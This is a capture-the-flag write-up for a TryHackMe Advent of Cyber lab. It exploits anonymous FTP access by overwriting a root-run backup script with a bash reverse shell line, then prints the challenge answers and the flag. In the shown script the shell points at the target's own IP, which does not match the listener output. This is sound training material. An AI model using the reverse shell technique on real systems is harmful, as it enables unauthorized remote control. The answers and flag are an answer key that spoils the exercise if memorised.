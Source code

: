 # TRYHACKME: ADVENTOFCYBER2 [DAY 9] NETWORKING - Anyone can be Santa!

```
Even Santa has been having to adopt the "work from home" ethic in 2020. To help Santa out, Elf McSkidy and their team created a file server for The Best Festival Company (TBFC) that uses the FTP protocol. However, an attacker was able to hack this new server. Your mission, should you choose to accept it, is to understand how this hack occurred and to retrace the steps of the attacker.
```

TOPICS: Anonymous FTP, Bash reverse shell

### QUESTIONS

Name the directory on the FTP server that has data accessible by the "anonymous" user

```
$ ftp 10.10.37.103                                                                                         130 ⨯
Connected to 10.10.37.103.
220 Welcome to the TBFC FTP Server!.
Name (10.10.37.103:ffb): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/" is the current directory
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 backups
drwxr-xr-x    2 0        0            4096 Nov 16 15:05 elf_workshops
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 human_resources
drwxrwxrwx    2 65534    65534        4096 Nov 16 19:35 public

public
```

What script gets executed within this directory?

```
ftp> ls public
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 111      113           341 Nov 16 19:34 backup.sh
-rw-rw-rw-    1 111      113            24 Nov 16 19:35 shoppinglist.txt
226 Directory send OK.

backup.sh
```

What movie did Santa have on his Christmas shopping list?

```
$ cat shoppinglist.txt 
The Polar Express Movie
```

Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!  Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

```
$ cat backup.sh       
#!/bin/bash

# Created by ElfMcEager to backup all of Santa's goodies!

# Create backups to include date DD/MM/YYYY
# filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
# tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server

bash -i >& /dev/tcp/10.10.37.103/4444 0>&1
```

```
$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.6.44.43] from (UNKNOWN) [10.10.37.103] 49180
bash: cannot set terminal process group (1291): Inappropriate ioctl for device
bash: no job control in this shell
root@tbfc-ftp-01:~# 
root@tbfc-ftp-01:~# cat /root/flag.txt
cat /root/flag.txt
THM{even_you_can_be_santa}
```

